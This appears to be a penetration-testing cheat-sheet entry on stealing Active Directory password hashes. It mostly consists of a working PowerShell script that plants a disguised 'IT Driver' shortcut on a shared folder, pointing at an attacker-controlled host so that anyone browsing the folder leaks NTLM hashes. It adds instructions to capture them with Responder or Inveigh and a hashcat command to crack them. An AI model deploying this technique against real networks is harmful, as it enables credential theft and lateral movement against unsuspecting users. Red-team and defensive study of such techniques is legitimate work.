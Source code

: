 ```yaml
---
tags:
  - Initial-Access
  - Lateral-Movement
  - AD
---
```

Any writable directory (shares, nfs, locally) where users will list contents you can use a .lnk to steal hashes

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("\\DC01.domain.local\OpenShare\IT-Driver.lnk")
$lnk.TargetPath = "\\<AttackerIP>\@ico.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "IT Driver"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
Monitor for traffic with [Responder](https://github.com/SpiderLabs/Responder) on linux or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) on windows. 
Hash received? Try to crack it
```
hashcat -m 5600 userr.hash /usr/share/wordlists/rockyou.txt
```
OR:  [Relay Attacks](../Lateral%20Movement/Relay%20Attacks.md)

